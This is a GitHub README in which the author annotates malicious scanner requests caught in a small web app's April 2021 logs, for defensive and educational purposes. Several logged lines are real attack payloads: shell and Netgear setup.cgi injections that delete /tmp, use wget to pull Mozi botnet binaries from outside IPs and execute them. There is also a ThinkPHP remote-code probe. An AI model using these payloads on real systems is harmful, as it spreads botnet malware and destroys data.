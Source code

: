 # Inspecting Malicious Requests

I recently stood up a crude web application and my logs were capturing various requests my public IP was attracting.  I had seen some such requests before but finally decided it warranted a blog post, and you can read more here.

Otherwise, I'm posting this in a repository as a point of collaboration if any of my readers want to correct, inform, or expand.

## Log Lines and Narration

> `2021-04-25T10:19:17: GET /mysql/index.php?lang=en 404 0.940 ms - 1103`

PHP is a mainstay in the web development community, and there are many sites describing how it can integrate with mySQL.  'Index' here with the `php` extension implies some code process and not simply fetching a static resource (such as an html file).  Since this is under the `mysql` resource, it appears to be a big sniff to see if a console to the mysql db has been left open.

> `2021-04-25T10:21:27: GET /shell?cd+/tmp;rm+-rf+*;wget+http://172.36.40.208:44947/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws 404 0.964 ms - 1103`

Immediately one can recognize the `shell` resource, that this is a flavor of a [bashdoor](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/) attack or attempting to insert and invoke arbitrary code at the command line level.  It first tries to clear out everything in the 'tmp' direcotry (`cd /tmp; rm -rf *`) before fetching (`wget`) a remotely hosted file ('Mozi.a`, part of the [Mirai botnet](https://isc.sans.edu/forums/diary/Honeypot+Scanning+and+Targeting+Devices+Services/25928/)) and then tries to invoke.  

> `2021-04-25T11:17:53: GET http://169.254.169.254/latest/meta-data/ 404 1.033 ms - 1103`

Not an attack, rather something particular to AWS EC2 [instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html).  I believe it's the AWS SDK (within my NodeJS application) locally looking for the metadata containing the AWS credentials (since my web app was integrated with DynamoDB).  Noteworthy is the IP `169.254.169.254` is special to every EC2 instance.

> `2021-04-25T11:49:04: POST /HNAP1/ 404 0.837 ms - 1103`

Home Network Administration Protocl ([HNAP](https://routersecurity.org/hnap.php)) is a Cisco proprietary protocl for managing network devices, going back to 2007.  There was a [worm back in 2014](https://isc.sans.edu/diary/Linksys+Worm+%22TheMoon%22+Summary%3A+What+we+know+so+far/17633), which used the HNAP1 protocol to identify specific Linksys routers (firmware etc.), and then send a second request to invoke an exploit at the CGI/script level.

> `2021-04-25T14:57:06: GET /.env 404 0.919 ms - 1103`

The `.env` is not specific to one framework or language, but actually closert to industry convention.  I think this request is simply hoping that the server is simply hosting a directory and that an `.env` might be exposed possibly revealing things like API or credential keys/tokens.

> `2021-04-25T17:00:00: POST http://likeapro.best/`

I tried the URl, and it was a 'Not Found', so who knows.  Maybe someone is hoping to get more traffic to a site laiden with ads.

> `2021-04-25T18:04:09: GET /config/getuser?index=0 404 0.940 ms - 1103`

Specific D-Link wi-fi camears had a vulnerability where the remote administrator vould be directly queried without authentication!  Hoorah for the National Vulnerability Database (NIST), the page for [this vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2020-25078#vulnCurrentDescriptionTitle) in particular was fun to read through and click the links deeper into the vulnerability and who/how it was uncovered.

> `2021-04-25T20:12:45: POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php 404 1.083 ms - 1103`

This is a [vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9841) for specific version of [PHPUnit](https://phpunit.de), where arbitrary PHP code could be executed!  Here's a very [detailed story](https://thephp.cc/articles/phpunit-a-security-risk) (by a PHP expert), on how this impacted a retail website.  The first link is to [cve.mitre.org](cve.mitre.org), a vulnerability catalog sponsored by USA's DHS and CISA, and the actual site is maintained by the MITRE Corp. 


> `2021-04-25T20:12:45: POST /api/jsonws/invoke 404 0.656 ms - 1103`

[Liferay](https://www.liferay.com) is a digital portal/platform product, which had a JSON (deserialization) and remove code execution [vulnerability](https://codewhitesec.blogspot.com/2020/03/liferay-portal-json-vulns.html) ([CVE-2020-7961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7961)) in March of 2020 and documented by [Code White](https://codewhitesec.blogspot.com).  Bonus, someone created a [scanner](https://github.com/random-robbie/liferay-pwn) (github) for this vulnerability.


> `2021-04-25T20:12:45: GET /solr/admin/info/system?wt=json 404 0.989 ms - 1103`

Ranked as the [#7 Web Service Exploit of 2020](https://blog.radware.com/security/2020/12/the-top-web-service-exploits-in-2020/), even though Apache [published an issue](https://issues.apache.org/jira/browse/SOLR-4882) back in 2013!  The above request is a scan looking for specific versions of Apache Solr (search platform), where a particular parameter is exposed and can lead to arbitrary file reading.  Apparently this is combined with some other vulnerabilities to eventually get to remote code execution, detailed in [CVE-2013-6397](https://nvd.nist.gov/vuln/detail/CVE-2013-6397).

## No Narration (yet)

```
2021-04-25T20:12:45: GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 404 0.918 ms - 1103
2021-04-25T20:12:45: GET /wp-content/plugins/wp-file-manager/readme.txt 404 0.866 ms - 1103
2021-04-25T20:12:46: POST /Autodiscover/Autodiscover.xml 404 1.512 ms - 1103
2021-04-25T20:12:46: GET /console/ 404 0.771 ms - 1103
2021-04-25T20:12:46: GET /_ignition/execute-solution 404 0.936 ms - 1103
2021-04-25T22:00:03: GET /.env 404 4.342 ms - 1103
2021-04-25T22:00:04: POST / 404 0.994 ms - 1103
2021-04-26T06:08:45: POST /GponForm/diag_Form?images/ 404 0.736 ms - 1103
2021-04-26T10:42:36: GET /laravel/.env 404 0.658 ms - 1103
2021-04-26T10:42:36: GET /app/.env 404 0.619 ms - 1103
2021-04-26T10:42:36: GET /application/configs/application.ini 404 0.712 ms - 1103
2021-04-26T10:42:36: GET /application/application.ini 404 0.656 ms - 1103
2021-04-26T10:42:36: GET /vendor/laravel/.env 404 0.641 ms - 1103
2021-04-26T10:42:36: GET /wp-content/uploads/wc-logs/ 404 0.677 ms - 1103
2021-04-26T11:38:52: POST /Autodiscover/Autodiscover.xml 404 0.836 ms - 1103
2021-04-26T11:38:52: GET /console/ 404 0.711 ms - 1103
2021-04-26T11:38:53: GET /_ignition/execute-solution 404 1.475 ms - 1103
2021-04-26T16:41:52: GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://58.248.142.207:49791/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 404 0.969 ms - 1103
```
